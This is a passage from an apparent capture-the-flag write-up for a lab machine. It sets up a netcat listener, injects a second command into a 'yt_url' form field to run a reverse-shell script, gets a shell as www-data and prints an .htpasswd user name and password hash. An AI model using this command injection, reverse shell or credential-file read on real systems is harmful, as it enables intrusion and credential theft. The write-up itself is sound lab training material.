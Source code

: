Now, let's set up a `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
```

Next, we have to execute the `reverse_shell.sh` file on the server using the following:

```
yt_url=--;bash  reverse_shell.sh
```

![7](https://github.com/Knign/Write-ups/assets/110326359/5ea08a3e-4bc2-4556-803e-3beac14ee6f8)

Let's check back on our `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.162.57] 55344
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

Let's list out the files in the current directory.

```
www-data@dmv:/var/www/html/admin$ ls -la
ls -la
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Feb  8 07:38 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12  2020 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12  2020 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12  2020 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12  2020 index.php
```

We can now `cat` out the `.htpasswd` file.

```
www-data@dmv:/var/www/html/admin$ cat .htpasswd 
cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

There's the user that has access to the secret folder.

### Answer
```
itsmeadmin
```

&nbsp;

### What is the user flag?
